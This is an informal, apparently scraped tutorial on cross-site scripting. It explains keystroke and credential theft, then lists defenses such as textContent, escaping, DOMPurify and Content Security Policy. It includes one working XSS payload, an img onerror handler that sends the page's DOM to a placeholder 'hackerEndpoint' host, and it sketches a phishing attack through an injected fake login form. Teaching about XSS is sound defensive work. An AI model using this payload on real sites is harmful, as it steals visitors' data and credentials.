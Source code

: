 ```js
```

and everytime user writing something code script will just pick the keystrokes and make a request to uri with the user input /data as a payload. This will potentially pick your credit card number then password and will be direct threat to your security.

### Stealing Critical information:
<hr>
It'll just copy paste your whole DOM and pass it to the hacker.Just add a script and pass it in the query params.Like example:

```js
Passing in Query Params:

<img src="empty.gif" onerror="var mycookie=document.cookie; new Image().src=`http://hackerEndpoint/fpage.php?output=${document.body.innerHTML}`;">
```
This can just able to copy paste every single information from your DOM and send it to the hacker. same as the phishing attack. hacker will inject the user form, suppose a login form so he'll just take you to the fake login form and you'll put the information and malicious script will send your credentials to the hacker and you'll be fucked up.


You can also pass or execute a cool looking form and when user put his credentials just take dom snapshot and pass it to out hacking server or just take critical information to hack the user. 

**Mitigations or things to be care of:**
<hr>

1. List all possible ways to take user inputs. (In form of URL or Mobile number or email like wise).
2. Please do not user innerHtml kind of things, user textContent or innerText. So it won't be execute as a DOM element.
3. Use Escaping. Like escaping script tag or sanitise those tags (possible threats) to some other random strings.
4. Use any lib like React or angular that will take care of all thease things.
5. Do not put Dangerous HTML;s in your DOM.
6. Use libs like DOM purify. it will sanitise the data.
7. Use CSP headers. It control like from which sources and what form of resources can be loaded. It will be conveyed by your server to your browers by csp headers maybe. (But confirm once!!!).


Lets Brief about CSP.

**CSP: (Content security policy)**

Allowed Sources:
You can tell the allowed resources: Whar are allowed sources of script, images, Iframe or forms. So this can be decided by allowed source. (Either cross or same origin).

Script Nounces:
Way to differentiate the script is yours or injected by someone else.

Report-only Mode:
To track the Xss attacks.
